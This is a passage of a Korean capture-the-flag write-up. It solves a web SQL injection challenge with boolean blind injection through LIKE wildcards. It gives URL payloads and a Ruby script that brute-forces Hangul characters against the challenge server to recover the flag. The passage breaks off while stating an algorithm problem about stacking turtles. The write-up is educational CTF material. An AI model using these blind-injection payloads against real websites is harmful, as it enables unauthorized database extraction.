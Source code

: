 여기에서 4번 글의 길이를 알아낼 수 있는데요, like의 와일드카드 `_`를 사용하면 됩니다. 길이가 맞지 않으면 `존재하지 않는 글입니다` 메시지가 나오고, 길이가 맞으면 `Secret :)`을 볼 수 있습니다.

``` sql
?letter=-1 or letter like "_" and no=4
?letter=-1 or letter like "__" and no=4
?letter=-1 or letter like "___" and no=4
...
```

길이는 10글자입니다. 문제는 글의 내용인데요, `"%A%"` 등의 알파벳이 존재하지 않습니다. 처음 등장한 Clue에서 `utf32_unicode_ci`라는 부분을 생각하면 글이 한글로 이루어져 있는 것 같습니다. 마찬가지로 like를 이용해 한글 글자를 빼냅니다.

``` ruby
require 'net/http'

('가'..'힣').each do |char|
  puts char if Net::HTTP.get_response(URI.parse("http://web-prob.dkserver.wo.tc/sqli_962a035aacf08966ffc7610957ac0c29/?letter=-1%20or%20letter%20like%20%27#{URI.escape("%#{char}%")}%27%20and%20no=4")).body.force_encoding('utf-8') =~ /Secret/
end
```

끝까지 돌렸다면 아마 아래와 같은 결과가 나왔을 것입니다만, 다 나오기 전에 추측했습니다.

``` text
그
날
는
라
래
리
아
야
오
플
```

각 글자의 자리는 `__________`의 각 글자 중 한 자리에 넣어봄으로써 알아냈습니다. 글 내용은 `플래그는오리야날아라`였습니다.

Flag는 `오리야날아라`입니다.

## <a id="weight-and-measures"></a>WEIGHT AND MEASURES - ALGO200

> 밤(bam)이라는 검은 거북이가 친구들과 햄버거놀이를 하기 위해 문의를 해왔다. 혹시 놀이를 하다가 다칠 수도 있기 때문이다. 햄버거놀이를 하기 위해 동원된 거북이는 체중과 체력이 모두 다르다. 가능한 한 가장 많은 거북이를 쌓는 방법을 찾아보자.
>
> [+] Notice : 여러 줄이 입력되는데, 한 줄에 한 쌍의 정수가 입력된다. 첫번째 정수는 체중을, 두번째 정수는 거북이의 체력을 나타낸다. 거북이의 체중은 그램 단위로 입력된다. 즉 체중이 600g이고 체력이 1500인 거북이의 등 위에는 900g을 올려놓을 수 있다.
>
> [+] Notice : 어떤 거북이도 자기 체력이 허용하는 한도 내에서만 등 위에 다른 거북이를 올려놓으면서, 몇 마리의 거북이를 쌓을 수 있는지를 나타내는 정수를 출력한다.
>
> 3초 안에 계산해서 제출해야 한다. 제출 방식은 쌓을 수 있는 거북이의 숫자 turtles로 제출하면 된다.
>
> [+] examples
>
> 거북이 = 4마리
>
> No.1
>
> 1300
>
> 1710
>
> No.2
>
> 100